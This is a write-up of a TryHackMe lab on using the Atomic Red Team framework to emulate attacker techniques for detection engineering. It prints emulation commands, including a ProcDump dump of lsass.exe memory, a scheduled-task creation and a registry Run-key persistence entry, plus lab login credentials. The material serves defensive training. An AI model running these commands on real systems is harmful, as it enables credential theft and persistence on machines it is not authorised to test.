# Atomic Red Team

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
Tags: Windows
Subscription type: Premium
Description:
Leveraging the Atomic Red Team Framework to strengthen the Security Operations' detection capabilities.
```

Room link: [https://tryhackme.com/room/atomicredteam](https://tryhackme.com/room/atomicredteam)

## Solution

### Task 1 - Introduction

*How do threat actors execute initial payloads? What typical commands are performed by threat actors once a persistent connection is established in the network? What does it look like in our environment?*

It can be overwhelming for security analysts to try learning every tactic, technique, and procedure (TTP) used by threat actors to test the capabilities of a Security Operations setup. That's why threat emulation frameworks were developed – they provide a structured and efficient way to simulate various techniques, making it easier for security analysts to evaluate the detection capabilities of a SOC. Many different approaches can be taken when emulating threats, and these frameworks help to organise and streamline the process.

#### Learning Objectives

In this room, we will learn how to utilise Atomic Red Team from the perspective of Blue Teamers, understanding how exactly threat actors run their TTPs and how significant it is to see it in action. In addition, we will tackle topics such as the following throughout the room:

- Break down of the Atomics - the main component of the Atomic Red Team Framework.
- Importance of emulated execution and cleanup during testing.
- Implications of threat emulation to detection engineering.

#### Room Prerequisites

It is suggested to clear the following rooms first before proceeding with this room:

- [Introduction to Threat Emulation](https://tryhackme.com/room/threatemulationintro)
- [Threat Modeling](https://tryhackme.com/room/threatmodelling)
- [Windows Event Logs](https://tryhackme.com/room/windowseventlogs)
- [Aurora](https://tryhackme.com/room/auroraedr)

Now, let's defeat threats by becoming one with them.

### Task 2 - Atomic Red Team

#### What is Atomic Red Team?

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) is an open-source project that provides a framework for performing security testing and threat emulation. It consists of tools and techniques that can be used to simulate various types of attacks and security threats, such as malware, phishing attacks, and network compromise. The Atomic Red Team aims to help security professionals assess the effectiveness of their organization's security controls and incident response processes and identify areas for improvement.

The Atomic Red Team framework is designed to be modular and flexible, allowing security professionals to select the tactics and techniques most relevant to their testing needs. It is intended to be used with other tools and frameworks, such as the MITRE ATT&CK framework, which provides a comprehensive overview of common tactics and techniques threat actors use.

All the credit goes to Red Canary for creating this fantastic framework.


**Supported Platforms**

Atomic Red Team supports emulation on a wide range of platforms, not only on known Operating Systems but also in Cloud Environments. Below is the list of platforms supported by the Atomic Red Team.

|Platform Type|Platforms Supported|
|----|----|
|Operating System|Windows, Linux, macOS|
|Cloud Infrastructure|AWS, Azure, GCP|
|Cloud Services|Office 365, Google Workspaces, Azure AD|
|Others|Containers (Kubernetes)|

Take note that these platforms pertain to the targets of threat emulation, where attack techniques are executed and observed.

**Understanding How Emulation Works**

In a nutshell, Atomic Red Team emulates commands that mimic threat activity using Executors. Below is the list of available executors.

|Executor|Operating System|Notes|
|----|----|----|
|sh or bash - `/bin/sh` or `/bin/bash`|Linux, macOS|Commands executed by this Executor are usually Unix tools used by threat actors for malicious intent.|
|Command Prompt - `cmd.exe`|Windows|Commands executed by this Executor are usually Windows Built-in or Third-party binaries used by threat actors for malicious intent.|
|PowerShell - `powershell.exe`|Windows|Emulated commands by this Executor are commonly known malicious PowerShell modules that threat actors abuse.|
|Manual|N/A|The details given in this type are typically written as steps needed to be executed to emulate a threat, such as when GUI steps are involved that cannot be automated.|

#### Deep-Dive Into Atomics

*Before seeing Executors in action, let's deal with the details inside an Atomic.*

Atomics refers to different testing techniques based on the MITRE ATT&CK Framework. Each works as a standalone testing mock-up that Security Analysts can use to emulate a specific Technique, such as **OS Credential Dumping: LSASS Memory**, for a quick example.

Each Atomic typically contain two files, both of which are named by their MITRE ATT&CK Technique ID:

```bash
user@ATOMIC$ ls -lh T1003.001/
-rw-r--r--   1 user  user       300B Jan 4 22:57 T1003.001.md
-rw-r--r--   1 user  user       500B Jan 4 22:58 T1003.001.yaml
```

- **Markdown File (.md)** - Contains all the information about the technique, the supported platform, Executor, GUID, and commands to be executed.
- **YAML File (.yaml)** - Configuration used by frameworks, such as Invoke-Atomic and Atomic-Operator, to do the exact emulation of the technique

The Markdown file is written to be self-explanatory, so let's dive deep into the configuration files used to emulate commands.

*There are 12 atomic tests for T1003.001, but we will present only one test below for brevity.*

**Atomic YAML File Breakdown**

The first few fields are already given based on their field names:

- **attack_technique** - MITRE ATT&CK Technique ID, which also signifies the file's name.
- **display_name** - The technique name, similar to how it is presented as a MITRE Technique.
- **atomic_tests** - List of atomic tests, which details how every test is executed.

```bash
user@ATOMIC$ cat T1003.001/T1003.001.yaml

attack_technique: T1003.001
display_name: "OS Credential Dumping: LSASS Memory"
atomic_tests:
...
```

The following section details the contents of a single Atomic Test under the list of **atomic_tests** field:

- **name** - Short snippet that describes how it tests the technique.
- **auto_generated_guid** - Unique identifier of the specific test.
- **description** - A longer form of the test details and can be written in a multi-line format.
- **supported_platforms** - On what platform will the technique be executed (on a Windows machine in this case)
- **input_arguments** - Required values during the execution, resorts to the default value if nothing is supplied.

```yaml
...
- name: Dump LSASS.exe Memory using ProcDump
  auto_generated_guid: 0be2230c-9ab3-4ac2-8826-3199b9a0ebf8
  description: |
    The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
    ProcDump.

    Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

    If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.
  supported_platforms:
  - windows
  input_arguments:
    output_file:
      description: Path where resulting dump should be placed
      type: Path
      default: C:\Windows\Temp\lsass_dump.dmp
    procdump_exe:
      description: Path of Procdump executable
      type: Path
      default: PathToAtomicsFolder\T1003.001\bin\procdump.exe
```

To conclude with the contents of an Atomic test, details about **dependencies** and **executors** are as follows:

- **dependency_executor_name** - Option on how the prerequisites will be validated. The possible values for this field are similar to the Executor field.
- **dependencies**
  - **prereq_command** - Commands to check if the requirements for running this test are met. The conditions for the "command_prompt" Executor are not satisfied if any command returns a non-zero exit code. For the "Powershell" Executor, all commands are run as a script block, and the script block must return 0 for success.
  - **get_prereq_command** - Commands to meet this prerequisite or a message describing how to meet this requirement.
- **executor**
  - **name** - Name of the Executor; similar to what has been discussed above.
  - **command** - Exact command to emulate the technique.
  - **cleanup_command** - Commands for cleaning up the previous atomic test, such as deletion of files or reverting modified configurations.
  - **elevation_required** - A boolean value that dictates if an admin privilege is required.

```powershell
...
  dependency_executor_name: powershell
  dependencies:
  - description: |
      ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
    prereq_command: |
      if (Test-Path #{procdump_exe}) {exit 0} else {exit 1}
    get_prereq_command: |
      [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
      Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "$env:TEMP\Procdump.zip"
      Expand-Archive $env:TEMP\Procdump.zip $env:TEMP\Procdump -Force
      New-Item -ItemType Directory (Split-Path #{procdump_exe}) -Force | Out-Null
      Copy-Item $env:TEMP\Procdump\Procdump.exe #{procdump_exe} -Force
  executor:
    name: command_prompt
    command: |
      #{procdump_exe} -accepteula -ma lsass.exe #{output_file}
    cleanup_command: |
      del "#{output_file}" >nul 2> nul
    elevation_required: true
```

Before concluding this section, it is essential to highlight the **cleanup** feature of Atomics. But why is cleanup significant in threat emulation?

- First and foremost, it helps to ensure that the tested system returns to its original state after completing the emulation.
- Next, writing cleanup scripts help in minimizing the risk of accidental damage to the system since it serves as an additional verification of the execution. You understand the impact more as you write the reverse of the emulation.
- Lastly, it helps to maintain the integrity of the system being tested. Tools left after emulation exercises could be abused by potential threat actors.

---------------------------------------------------------------------------------------

#### What type of executor is used for actions that cannot be automated?

Answer: `Manual`

#### What is the field in an Atomic YAML file populated by a unique identifier to isolate a specific Atomic?

Answer: `auto_generated_guid`

#### What is the field in an Atomic YAML file populated by commands for deleting files used for emulation or reverting modified configurations?

Answer: `cleanup_command`

### Task 3 - Invoke-AtomicRedTeam

We have previously understood Atomic Red Team and how Atomics work; let's extend our knowledge by seeing it in action.

As discussed, the main goal of the Atomic Red Team Framework is to ease the threat emulation process. Hence, tools such as **Invoke-AtomicTest** were created to utilise the automation and execution of Atomics. Let's start playing with these tools by emulating different attack patterns.

You may start the machine attached to this room by clicking the **Start Machine** button. This VM hosts the tools needed throughout the room.

Note: If the VM is not visible, use the blue Show Split View button at the top-right of the page. In addition, you may use the following credentials for alternative access via Remote Desktop (RDP):

- Username: `administrator`
- Password: `Emulation101!`
- IP Address: `10.65.130.0`

#### Invoke-AtomicRedTeam

[Invoke-AtomicRedTeam](https://github.com/redcanaryco/invoke-atomicredteam/wiki) is a PowerShell module created by the same author (Red Canary) that allows Security Analysts to run simulations defined by Atomics. To avoid confusion, the primary cmdlet used in this module is `Invoke-AtomicTest` and not `Invoke-AtomicRedTeam`.

**Setup**

Open a PowerShell window with ExecutionPolicy set to bypass inside the provided Virtual Machine. This ignores all security warning prompts while loading the module.

```powershell
PS C:\Users\Administrator>powershell -ExecutionPolicy bypass
```

Then load the module using the **Import-Module** cmdlet specifying the location of the `Invoke-AtomicRedTeam.psd1` file.

```powershell
PS C:\Users\Administrator> Import-Module "C:\Tools\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force

PS C:\Users\Administrator> $PSDefaultParameterValues = @{"Invoke-AtomicTest:PathToAtomicsFolder"="C:\Tools\AtomicRedTeam\atomics"}
```

The additional command executed after the **Import-Module** specifies the location of the Atomics folder in this machine since it is not located in the default location, which is the `C:\AtomicRedTeam\atomics` directory. You might encounter an error if the latter command is not executed.

You can confirm if the module is successfully loaded once the **help** cmdlet provides information about **Invoke-AtomicTest**.

```powershell
PS C:\Users\Administrator> help Invoke-AtomicTest

NAME
    Invoke-AtomicTest

SYNTAX
    Invoke-AtomicTest [-AtomicTechnique]  [-ShowDetails] [-ShowDetailsBrief] [-TestNumbers ]
    [-TestNames ] [-TestGuids ] [-PathToAtomicsFolder ] [-CheckPrereqs]
    [-PromptForInputArgs] [-GetPrereqs] [-Cleanup] [-NoExecutionLog] [-ExecutionLogPath ] [-Force] [-InputArgs
    ] [-TimeoutSeconds ] [-Session ] [-Interactive] [-KeepStdOutStdErrFiles]
    [-LoggingModule ] [-WhatIf] [-Confirm]  []


ALIASES
    None


REMARKS
    None
```

Based on the output of the help cmdlet, it can be seen that the syntax **Invoke-AtomicTest** goes in this format: `Invoke-AtomicTest <NAME> <Optional parameters>`

Note that the NAME placeholder uses the Technique ID of the target Atomic; the value "**ALL**" specifies that every Atomic will be used. The optional parameters will be highlighted in the succeeding sections.

**Listing Atomic Techniques**

Before going to the emulation proper, let's first discuss the importance of understanding the Atomics before running commands.

We have previously elaborated the contents of an Atomic file, which contains mostly how the emulation works from start to finish. However, navigating through the GIT repository and reading the information about the techniques you want to emulate may be gruesome. With that in mind, this module can use a parameter that provides the details inside an Atomic file - **ShowDetailsBrief** and **ShowDetails**.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1127 -ShowDetailsBrief
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1127-1 Lolbin Jsc.exe compile javascript to exe
T1127-2 Lolbin Jsc.exe compile javascript to dll
```

The output shows that **ShowDetailsBrief** lists the available tests in the specified Atomic and its corresponding Atomic Test number.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1127 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Trusted Developer Utilities Proxy Execution T1127
Atomic Test Name: Lolbin Jsc.exe compile javascript to exe
Atomic Test Number: 1
Atomic Test GUID: 1ec1c269-d6bd-49e7-b71b-a461f7fa7bc8
Description: Use jsc.exe to compile javascript code stored in scriptfile.js and output scriptfile.exe. https://lolbas-pr
oject.github.io/lolbas/Binaries/Jsc/ https://www.phpied.com/make-your-javascript-a-windows-exe/

Attack Commands:
Executor: command_prompt
ElevationRequired: False
Command:
copy #{filename} %TEMP%\hello.js
#{jscpath}\#{jscname} %TEMP%\hello.js
Command (with inputs):
copy C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js %TEMP%\hello.js
C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe %TEMP%\hello.js

Cleanup Commands:
Command:
del %TEMP%\hello.js
del %TEMP%\hello.exe
---- Dependencies section is redacted, and will be discussed in the next section ---
```

The output above shows that the **ShowDetails** parameter is the verbose version of **ShowDetailsBrief**, which only provides the list of tests inside the Atomic T1127.  

It may not be direct, but these two parameters are significant in executing emulation exercises. It is essential to learn and understand how many tests will be conducted under an Atomic, how it will be performed, and how to clean it up. Knowing these items gives us an overview of the impact on the target environment.

**Preparing Atomic Prerequisites**

Remember that every Atomic test may require some dependencies, such as binaries and files needed for execution. Below is the excerpt of Atomic T1127-1's dependency section using the **ShowDetails** parameter.

```powershell
Dependencies:
Description: JavaScript code file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1127\src\hel
lo.js)
Check Prereq Command:
if (Test-Path #{filename}) {exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (Test-Path C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js) {exit 0} else {exit 1}
Get Prereq Command:
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1127/src/hello.js" -OutFile "#{fil
ename}"
Get Prereq Command (with inputs):
New-Item -Type Directory (split-path C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1127/src/hello.js" -OutFile "C:\To
ols\AtomicRedTeam\atomics\T1127\src\hello.js"
[!!!!!!!!END TEST!!!!!!!]
```

It is crucial to verify if the dependencies are met before executing the tests, and this can be done by using the **CheckPrereqs** parameter. In the case of  **Atomic T1127-1**, the file from `C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js` should exist.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1127 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1127-1 Lolbin Jsc.exe compile javascript to exe
Prerequisites met: T1127-1 Lolbin Jsc.exe compile javascript to exe
CheckPrereq's for: T1127-2 Lolbin Jsc.exe compile javascript to dll
Prerequisites met: T1127-2 Lolbin Jsc.exe compile javascript to dll
```

If the required binaries, files or scripts do not exist in the machine, the **GetPrereqs** parameter can be used. This parameter automatically pulls the dependencies from an external resource. It also details what conditions are being attempted to satisfy and confirms if the prerequisite is already met.

**Note**: Usage of the **GetPrereqs** feature may fail since the provided instance has **no outbound internet connection**.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1127 -GetPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

GetPrereq's for: T1127-1 Lolbin Jsc.exe compile javascript to exe
Attempting to satisfy prereq: JavaScript code file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js)
Prereq already met: JavaScript code file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1127\src\hello.js)
GetPrereq's for: T1127-2 Lolbin Jsc.exe compile javascript to dll
Attempting to satisfy prereq: JavaScript code file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1127\src\LibHello.js)
Prereq already met: JavaScript code file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1127\src\LibHello.js)
```

With everything prepared, the only thing left is to execute the Atomic tests.

**Execution**

Let's do the fun part, starting with emulating different MITRE ATT&CK Techniques. First, there are multiple ways to execute the Atomic tests, which will be detailed below.

|Parameter|Example|Details|
|----|----|----|
|TestNumbers|`Invoke-AtomicTest T1127 -TestNumbers 1,2`|Executes tests based on the Atomic test number|
|TestNames|`Invoke-AtomicTest T1127 -TestNames "Lolbin Jsc.exe compile javascript to dll"`|Executes tests based on the Atomic test names|
|TestGuids|`Invoke-AtomicTest T1127 -TestGuids 3fc9fea2-871d-414d-8ef6-02e85e322b80`|Executes tests based on the test GUID|
|N/A|`Invoke-AtomicTest T1127`|Executes all tests under Atomic T1127|
|N/A|`Invoke-AtomicTest T1127-2`|Executes Atomic Test #2 of T1127|

As an example, let's now see the tests in action with Atomic T1053.005 - Scheduled Task/Job: Scheduled Task.

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1053.005 -ShowDetailsBrief
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1053.005-1 Scheduled Task Startup Script
T1053.005-2 Scheduled task Local
T1053.005-3 Scheduled task Remote
T1053.005-4 Powershell Cmdlet Scheduled Task
T1053.005-5 Task Scheduler via VBA
T1053.005-6 WMI Invoke-CimMethod Scheduled Task
T1053.005-7 Scheduled Task Executing Base64 Encoded Commands From Registry
T1053.005-8 Import XML Schedule Task with Hidden Attribute
T1053.005-9 PowerShell Modify A Scheduled Task
# Output shows nine tests are available for T1053.005

PS C:\Users\Administrator> Invoke-AtomicTest T1053.005 -TestNumbers 1,2
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1053.005-1 Scheduled Task Startup Script
-- redacted --
Done executing test: T1053.005-1 Scheduled Task Startup Script
Executing test: T1053.005-2 Scheduled task Local
-- redacted --
Done executing test: T1053.005-2 Scheduled task Local
# Output shows ONLY TWO tests have been executed from T1053.005
```

You may have observed that the number of available tests was listed before conducting the test, and only two tests out of nine were executed due to the **TestNumbers** parameter.

**Cleanup**

As mentioned throughout the room, cleaning up the mess of emulating different techniques is VERY IMPORTANT. The **Invoke-AtomicRedTeam** module also has the option to execute the cleanup commands to revert every footprint left by the tests. This can be done by using the **Cleanup** parameter.

```powershell
PS C:\Users\Administrator> schtasks /tn T1053_005_OnLogon

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
T1053_005_OnLogon                        N/A                    Ready

PS C:\Users\Administrator> Invoke-AtomicTest T1053.005 -TestNumbers 1,2 -Cleanup
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing cleanup for test: T1053.005-1 Scheduled Task Startup Script
Done executing cleanup for test: T1053.005-1 Scheduled Task Startup Script
Executing cleanup for test: T1053.005-2 Scheduled task Local
Done executing cleanup for test: T1053.005-2 Scheduled task Local

PS C:\Users\Administrator> schtasks /tn T1053_005_OnLogon
ERROR: The system cannot find the file specified.
```

You may have observed that we executed **schtasks** before cleaning up the scheduled tasks created by the Atomic test **T1053.005**. This only shows that a scheduled task exists and was cleaned up after using the cleanup parameter.

---------------------------------------------------------------------------------------

Preparations:

```powershell
PS C:\Users\Administrator> powershell -ExecutionPolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module "C:\Tools\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
PS C:\Users\Administrator> $PSDefaultParameterValues = @{"Invoke-AtomicTest:PathToAtomicsFolder"="C:\Tools\AtomicRedTeam\atomics"}
PS C:\Users\Administrator>
```

#### How many atomic tests are under Atomic T1110.001 that are supported on Windows hosts?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1110.001 -ShowDetailsBrief
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1110.001-1 Brute Force Credentials of single Active Directory domain users via SMB
T1110.001-2 Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)
T1110.001-3 Brute Force Credentials of single Azure AD user
T1110.001-6 Password Brute User using Kerbrute Tool
```

Answer: `4`

#### What is the Atomic name of the second test under Atomic T1218.005?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1218.005 -TestNumbers 2 -ShowDetailsBrief
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

T1218.005-2 Mshta executes VBScript to execute malicious command
```

Answer: `Mshta executes VBScript to execute malicious command`

#### How many prerequisites are not met for Atomic T1003?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1003 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1003-1 Gsecdump
Prerequisites not met: T1003-1 Gsecdump
        [*] Gsecdump must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1003\bin\gsecdump.exe)

Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1003-2 Credential Dumping with NPPSpy
Prerequisites not met: T1003-2 Credential Dumping with NPPSpy
        [*] NPPSpy.dll must be available in local temp directory
Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1003-3 Dump svchost.exe to gather RDP credentials
Prerequisites met: T1003-3 Dump svchost.exe to gather RDP credentials
CheckPrereq's for: T1003-4 Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using list)
Prerequisites not met: T1003-4 Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using list)
        [*] IIS must be installed prior to running the test
Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1003-5 Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using config)
Prerequisites not met: T1003-5 Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using config)
        [*] IIS must be installed prior to running the test
Try installing prereq's with the -GetPrereqs switch
CheckPrereq's for: T1003-6 Dump Credential Manager using keymgr.dll and rundll32.exe
Prerequisites met: T1003-6 Dump Credential Manager using keymgr.dll and rundll32.exe
```

Answer: `4`

#### What is the parameter used to execute the specific Atomic test via GUID?

Answer: `TestGuids`

#### What is the name of the scheduled task created after executing the 2nd test of Atomic T1053.005?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1053.005 -TestNumbers 2 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Scheduled Task/Job: Scheduled Task T1053.005
Atomic Test Name: Scheduled task Local
Atomic Test Number: 2
Atomic Test GUID: 42f53695-ad4a-4546-abb6-7d837f644a71
Description: Upon successful execution, cmd.exe will create a scheduled task to spawn cmd.exe at 20:10.

Attack Commands:
Executor: command_prompt
ElevationRequired: False
Command:
SCHTASKS /Create /SC ONCE /TN spawn /TR #{task_command} /ST #{time}
Command (with inputs):
SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10

Cleanup Commands:
Command:
SCHTASKS /Delete /TN spawn /F >nul 2>&1
[!!!!!!!!END TEST!!!!!!!]
```

Answer: `spawn`

#### What is the registry key modified after executing the 2nd test of Atomic T1547.001?

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1547.001 -TestNumbers 2 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder T1547.001
Atomic Test Name: Reg Key RunOnce
Atomic Test Number: 2
Atomic Test GUID: 554cbd88-cde1-4b56-8168-0be552eed9eb
Description: RunOnce Key Persistence.
Upon successful execution, cmd.exe will modify the registry to load AtomicRedTeam.dll to RunOnceEx. Output will be via stdout.

Attack Commands:
Executor: command_prompt
ElevationRequired: True
Command:
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
Command (with inputs):
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Path\AtomicRedTeam.dll"

Cleanup Commands:
Command:
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f >nul 2>&1
[!!!!!!!!END TEST!!!!!!!]
```

Answer: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend`

### Task 4 - Revisiting MITRE ATT&CK

Based on the previous tasks, it was highlighted that the Atomic Red Team framework is heavily tied-up with MITRE ATT&CK. One clear connection is that every Atomic is written for a specific MITRE Technique, with the files of every Atomic named as its corresponding MITRE Technique ID.

In addition, an excerpt from [atomicredteam.io](https://atomicredteam.io/atomics/#collection) shows the available Tactics and Atomics under it, the Collection tactic in this case.



This correlation shows us that to maximise the Atomic Red Team framework's usage, we need to utilise our knowledge in MITRE ATT&CK Framework. Let's play again with the ATT&CK Navigator, one of the tools introduced in the [Threat Modeling room](https://tryhackme.com/room/threatmodelling).

#### ATT&CK Navigator

The ATT&CK Navigator is hosted in the same virtual machine deployed from the previous task.

You may access it via this link - `http://10.65.130.0/`.

**Incorporating ATT&CK Navigator into Atomic Red Team**

Choosing what Atomic to pick might be overwhelming; thus, we need to have a sense of direction when doing threat emulation. By utilising ATT&CK Navigator, we can dump the TTPs used by known APTs or cybercriminal groups and emulate their Atomics.

To start, create a new layer in the ATT&CK Navigator and choose **Enterprise**.



Then use the search functionality and navigate to the threat groups section. Let's select admin@338 as our interest group by clicking the select button. This action sets the techniques attributed to the **admin@338** group.



Next, close the search sidebar by re-clicking the search icon, click the score button in the upper-right corner and put one (1) as its score. This action highlights all selected techniques, which eases out the readability of the matrix.



Lastly, let's sort out the techniques per column to place the scored technique in the topmost position. Click the filter button until it is set to **sorting by score descending**, and eventually click the **expand sub-techniques** button to display all highlighted techniques and sub-techniques.

